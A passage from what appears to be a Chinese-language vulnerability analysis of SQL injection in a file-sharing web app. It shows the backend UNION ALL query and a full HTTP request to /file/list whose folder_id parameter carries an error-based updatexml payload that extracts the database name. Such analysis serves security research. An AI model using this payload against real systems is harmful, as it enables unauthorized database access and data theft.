 ```plain
SELECT `id`,`uid`,`shares_id`,folder_name as name,`ext`,`size`,`count_down`,`count_open`,`update_time` FROM `sk_folders` WHERE  `uid` = 10  AND `parent_folder` = '3'  AND `delete_time` IS NULL  AND `folder_name` LIKE '%aa%' 

UNION ALL 

( SELECT `id`,`uid`,`shares_id`,origin_name as name,`ext`,`size`,`count_down`,`count_open`,`update_time` FROM `sk_stores` WHERE  `uid` = 10  AND `parent_folder` = 3  AND `delete_time` IS NULL  AND `origin_name` LIKE '%aa%' ) LIMIT 0,20
```

所以最终的结果就是因为通过了`union`​去拼接起来了，所以才导致了 SQL 注入的产生，破案了

最终报文如下

```plain
GET /file/list?folder_id=1-updatexml(1,concat(0x7e,database(),0x7e),1)&search=&page=&rows= HTTP/1.1
Host: wp.com
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/json
Referer: http://wp.com/user/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=21cpn2h5jqf7e47k8dtlrhnmk4
Connection: close
```

[![](assets/1709022895-46553c09647046c5b31e61f1f551823c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192007-ff353fba-d498-1.png)
